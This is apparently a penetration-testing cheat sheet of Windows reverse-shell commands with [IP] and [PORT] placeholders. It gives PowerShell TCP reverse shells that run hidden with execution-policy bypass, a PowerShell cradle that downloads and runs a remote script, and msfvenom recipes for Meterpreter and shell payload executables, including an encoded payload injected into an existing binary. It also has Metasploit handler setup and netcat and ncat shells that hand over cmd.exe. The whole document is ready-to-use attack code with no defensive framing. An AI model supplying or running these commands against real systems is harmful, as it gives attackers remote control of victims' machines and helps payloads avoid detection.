 # Windows Shells

## Powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("[IP]",[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('[IP]',[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString("[IP]/[FILE.PS1]")
```


## Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe -o [NAME].exe
```
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe > [NAME].exe
```
```bash
use exploit/multi/handler
```
```bash
set payload windows/meterpreter/reverse_tcp
```

##### Stageless
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe -o [NAME].exe
```
```bash
use exploit/multi/handler
```
```bash
set payload windows/shell_reverse_tcp
```

##### Staged (Bad OPSEC)
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe -o [NAME].exe
```
```bash
use exploit/multi/handler
```
```bash
set payload windows/shell/reverse_tcp
```

##### Binary Injection
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe -e x86/shikata_ga_nai -i 9 -x "/[BINARY].exe" -o [NAME].exe
```


## Netcat

##### Listener
```bash
nc.exe -nlvp [PORT] -e cmd.exe
```
##### Shell
```bash
nc.exe [IP] [PORT] -e cmd.exe
```

## Ncat

##### Listener
```bash
ncat --exec cmd.exe --allow [IP] -vnl [PORT] --ssl
```
##### Shell
```bash
ncat -nv [IP] [PORT]
```
